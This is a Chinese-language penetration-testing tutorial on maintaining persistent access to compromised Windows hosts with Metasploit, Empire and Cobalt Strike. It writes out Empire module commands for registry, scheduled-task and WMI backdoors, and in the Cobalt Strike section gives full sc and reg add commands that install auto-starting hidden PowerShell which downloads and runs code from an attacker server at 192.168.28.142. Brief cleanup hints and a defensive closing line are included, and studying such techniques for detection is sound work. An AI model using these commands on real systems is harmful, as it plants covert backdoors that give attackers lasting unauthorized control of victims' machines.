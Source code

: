 ### 0x00 前言

在渗透测试中，有三个非常经典的渗透测试框架----**Metasploit**、**Empire**、**Cobalt Strike**。

那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？

### 0x01 MSF权限维持

使用MSF维持权限的前提是先获得一个*meterpreter*  shell，通过*meterpreter* shell获取持久性shell的方法有两种：

**Persistence模块**

通过启动项启动(persistence)的方式，在目标机器上以反弹回连。

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-1.png)

~~~
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
-X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。
-S：作为服务自动启动代理程序（具有SYSTEM权限）
~~~

生成的相关文件位置 ：

```bash
# 后门文件位置：
C:\Windows\Temp
C:\Users\Administrator\AppData\Local\Temp
# 注册表位置：
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
```

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-2.png)

**Metsvc 模块**

通过服务(metsvc)启动的方式，在目标机器启动后自启动一个服务，等待连接。

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-3.png)

后门排查：目标主机上开启了一个Meterpreter服务。

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-4.png)

### 0x02 Empire 权限维持

Empire的persistence模块提供了18种权限维持的方法，大致可以分为四类，即

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-17.png)


| elevated（管理权限） | misc（杂项） |  powerbreach  | userland（用户权限） |
| :-------                | :---------           | :---------                    | :---------   |
| registry*               | add_netuser      |   deaduser                | backdoor_lnk |
| schtasks*  |   add_sid_history*    |   eventlog*    | registry |
| wmi*   |    debugger*      | resolver  | schtasks |
| wmi_updater* |   disable_machine_acct_change*   |    |  |
||   get_ssps     |    |  |
||   install_ssp*     |    |  |
||   memssp*        |    |  |
||   skeleton_key*        |    |  |



**注册表**

~~~powershell
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
~~~

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-5.png)

因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-6.png)

**计划任务**

~~~
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
~~~

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-7.png)

在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-8.png)

**wmi**

~~~
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
~~~

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-9.png)

如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-10.png)

### 0x03 Cobalt Strike权限维持

通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-11.png)

根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-12.png)

点击Launch后，返回powershell远程下载执行命令。

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-13.png)

**服务自启动后门**

~~~powershell
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
~~~

重启服务器后，成功返回一个shell。

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-14.png)

**注册表自启动**

在windows启动项注册表里面添加一个木马程序路径，如：

~~~powershell
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f 
~~~

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-15.png)

 账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。

![](http://img-upaiyun-own.test.upcdn.net/privilege-3-16.png)

注册表还有哪些键值可以设置为自启动：

```bash
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

------

### 0x04 结束语

本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。


